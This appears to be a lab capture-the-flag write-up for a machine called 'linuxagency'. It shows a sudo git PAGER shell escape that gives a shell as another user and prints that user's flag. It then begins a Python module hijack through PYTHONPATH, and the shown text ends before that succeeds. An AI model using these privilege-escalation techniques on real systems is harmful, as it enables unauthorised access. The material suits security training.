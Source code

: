 
# Reza's Flag

- Silvio can run git as Reza

```console
silvio@linuxagency:~$ sudo -l
Matching Defaults entries for silvio on linuxagency:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User silvio may run the following commands on linuxagency:
    (reza) SETENV: NOPASSWD: /usr/bin/git
silvio@linuxagency:~$ sudo -u reza PAGER='sh -c "exec sh 0<&1"' git -p help
$ whoami
reza
$ cd
$ ls
examples.desktop  flag.txt
$ cat fl
cat: fl: No such file or directory
$ cat flag.txt
reza{2f1901644eda75306f3142d837b80d3e}
```

# Jordan's Flag
- Reza can run `/opt/scripts/Gun-Shop.py` .
- On running this script as jordan, an `ModuleNotFoundError` occurs for module shop.

```console
reza@linuxagency:/home/dalia$ sudo -u jordan /opt/scripts/Gun-Shop.py
Traceback (most recent call last):
  File "/opt/scripts/Gun-Shop.py", line 2, in <module>
    import shop
ModuleNotFoundError: No module named 'shop'
```

- Let's create a random python file `shop.py` in `/tmp` and set it as `PYTHONENV`, while running it.

```console
reza@linuxagency:~$ sudo -u jordan PYTHONPATH=/tmp/ /opt/scripts/Gun-Shop.py
Welcome to Gun-Shop
Here's the list of all guns we have at our shop

1. American Derringer DA 38 : $910
2. AMP Auto Mag Model 180 : $820
3. AMT Hardballer : $750
4. Colt King Cobra : $670
5. EAA Witness Limited Gold Team : $610
6. Ruger Mk II : $550
7. SIG-Sauer P226R : $500
Enter your choice : 1
Traceback (most recent call last):
  File "/opt/scripts/Gun-Shop.py", line 8, in <module>
    shop.buy(guns[response])
AttributeError: module 'shop' has no attribute 'buy'
```
